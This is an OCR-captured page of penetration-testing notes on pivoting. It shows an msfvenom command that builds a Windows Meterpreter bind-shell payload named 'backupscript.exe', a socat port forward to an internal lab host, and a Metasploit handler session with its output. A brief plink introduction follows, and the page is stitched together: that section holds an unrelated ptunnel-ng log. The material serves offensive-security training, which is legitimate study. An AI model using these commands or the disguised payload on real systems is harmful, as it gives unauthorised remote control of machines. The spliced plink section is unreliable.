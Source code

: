 ## **Socat Redirection with a Bind Shell**

![Untitled](Untitled%201%201.png)

In the case of bind shells, the Windows server will start a listener and bind to a particular port. 

### **Creating the Windows Payload**

- `msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443`

### **Starting Socat Bind Shell Listener**

- `socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443`

We can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.

### **Configuring & Starting the Bind multi/handler**

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

# **Pivoting Around Obstacles**

# **SSH for Windows: plink.exe**

`plink` is short for PuTTY link, which is windows cli ssh tool which comes with Putty package when installed.

Before Fall of 2018, windows did not have a native ssh client included, so putty was popular choice for sysadmins.

Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies

## **Getting To Know Plink**


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.